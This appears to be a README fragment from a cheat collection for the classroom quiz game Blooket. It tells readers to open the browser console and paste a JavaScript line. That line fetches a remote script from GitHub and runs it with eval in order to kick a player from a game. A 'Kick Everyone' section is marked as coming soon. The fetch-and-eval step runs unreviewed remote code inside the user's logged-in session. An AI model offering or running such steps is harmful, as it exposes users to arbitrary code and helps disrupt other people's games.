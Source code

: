 # Kick a player:
Press crtl + shift + j and paste the code below.
```js
fetch("https://raw.githubusercontent.com/glixzzy/Blooket-Collection/main/Kick/kick.js")
.then((res) => res.text()
.then((t) => eval(t)))
```

# Kick Everyone:
Coming soon!
